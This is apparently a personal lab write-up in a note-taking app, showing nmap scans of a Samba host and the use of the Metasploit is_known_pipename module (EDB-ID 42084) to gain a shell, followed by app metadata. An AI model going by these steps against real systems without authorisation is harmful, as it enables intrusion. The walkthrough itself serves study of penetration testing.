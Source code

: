 Getting a Foothold

Getting a Foothold

# 1. NMAP Scans
TCP CONNECT scan for services on all ports reveals a Linux OS with hostname SUSIE, that uses Samba.
`sudo nmap -sV -sT -p- 10.11.1.146`
![c9920e6f286cd951c1288d72652e2696.png](:/0be3d72aa6e146f19b376b922e9b7934)

Run an aggressive no ping scan on all ports that run scripts for default, safe, auth, and vuln. The
`sudo nmap -Pn -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.146`

The critical piece of info here comes from the smb-os-discovery output
![72713a0889a6cac3162d7042b05ab2a4.png](:/d7b40afe8fe24236866eea59633cdefb)


#2. Google search the output from smb-os-discovery
Search term: **Windows 6.1 Samba 4.5.4**
![6c9b35fe1864ac50d8478322a8b65c56.png](:/0cc5510b594e4e6ca826a2b84036335f)

Choose the exploit-db link. **EDB-ID: 42084**
Notice that it requires metasploit
[https://www.exploit-db.com/exploits/42084](https://www.exploit-db.com/exploits/42084)
![7eba9bf837a2378a971a7bb8e2e54c6f.png](:/67a6cfa54b354170979b8813b89317ce)

# 3. Metasploit usage
Start postgresql
`sudo systemctl postgresql start`
![8f66e4a76a2291b7521eb2aa612e03ce.png](:/d1227f7cd61e490497705c82c836144a)

Start the msfconsole without ascii banner
`sudo msfconsole -q`
![999d70f5a952d6a36f76881945062ff0.png](:/1bdc1103ff9e467b90107b953233d8a8)

Search for 'is_known_pipename' and select it
`search is_known_pipename`
`use 0`
![5802c1285e97fd501b4cf2332bc25d91.png](:/a1413088c270482cbde51be698bceb8d)

Show options
`show options`
![ec2a2e3df44ce540e1ababa9db36dec4.png](:/b105380f7204498f99ee5733cfb665b1)

Change rhosts to the target IP
`set rhosts 10.11.1.146`
![5a756399c644783c794f69a0dbf59667.png](:/96cd9edef449486e9f1d7fefa9718ba4)

Verify that the change to rhosts was made
`show options`
![2ca1d4c199a107b8a5b55e77cd47ab15.png](:/e964807e8f4a47f7872ffc6318922657)

Check to see if the exploit will work
`check`
![0a38a7c3bafcb7628d9e6bc724e660ce.png](:/c571b68d46bd4b659f24a3dfa4ad470d)

Run the exploit command. We get a shell!
`exploit`
![175b8bf179e86c11d004f951804c26f4.png](:/9edeb38de05b4cd5a6a4b7a6b9da73d2)



id: 7734c95a0a0042079b0a4bc341ff33aa
parent_id: 905fd60ed3b1488db1f90a96122593e4
created_time: 2020-08-30T08:07:36.458Z
updated_time: 2020-09-04T19:51:01.450Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-30T08:07:36.458Z
user_updated_time: 2020-09-04T19:51:01.450Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1